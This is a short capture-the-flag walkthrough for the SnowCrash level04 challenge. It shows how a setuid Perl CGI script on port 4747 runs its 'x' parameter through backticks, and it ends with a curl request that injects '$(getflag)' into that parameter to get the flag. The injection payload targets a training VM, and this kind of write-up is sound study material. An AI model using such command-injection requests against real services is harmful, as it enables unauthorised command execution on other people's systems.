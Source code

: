 ## 1. Connect to level04:

```bash
level03@SnowCrash:~$ su level04
password: *use previously found flag*
```

## 2. See existing files:

```bash
level04@SnowCrash:~$ ls -l
    total 4
    -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl

level04@SnowCrash:~$ cat level04.pl
```

The function `x` executes the shell command provided in `$y` using backticks.
This means that a malicious command can be injected through the `x` parameter.

The script does not filter or validate the command being executed. This creates an opportunity for **command injection**.

## 3. Check if server 4747 is running

```bash
level04@SnowCrash:~$ curl <your VM's IP address>:4747
```
An empty line is returned, which means that it is active.

## 4. Inject your command

Example
```bash
level04@SnowCrash:~$ curl <your VM's IP address>:4747?x=ls
```

It will return `ls` because function `x` prints what we give as a parameter.
Therefore, inject command `getflag` to get the flag
```bash
level04@SnowCrash:~$ curl '<your VM's IP address>:4747?x=$(getflag)'
```